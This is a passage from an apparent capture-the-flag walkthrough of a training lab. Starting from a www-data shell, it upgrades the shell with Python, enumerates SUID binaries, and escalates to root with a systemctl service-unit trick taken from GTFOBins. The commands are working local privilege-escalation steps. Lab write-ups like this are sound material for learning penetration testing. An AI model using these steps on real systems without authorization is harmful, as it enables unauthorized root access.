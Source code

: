 ```console
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/sh")' # Spawning a TTY Shell
```
check /home for user and /home/username for flag

# Privilege Escalation 
sudo -L will not works since we do not have www-data password. what we need to do is find SUID. To find SUID with root privilage run:
```console
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
```
After some digging. The most insteresting SUID is  `/bin/systemctl`. I check [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/) and found this:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
to understand more about it credit [F*NGsec](https://fnginfosec.github.io/tryhackme/vulnversity.html)
